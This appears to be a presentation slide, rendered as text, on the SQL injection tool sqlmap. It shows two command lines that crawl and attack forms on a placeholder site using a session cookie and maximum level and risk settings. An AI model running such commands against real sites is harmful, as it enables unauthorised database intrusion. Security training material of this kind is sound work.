

# SQLMap
sqlmap -u http://meh.com --forms --batch --crawl=10
 --cookie=jsessionid=54321 --level=5 --risk=3
sqlmap -o -u "http://meh.com/form/" --forms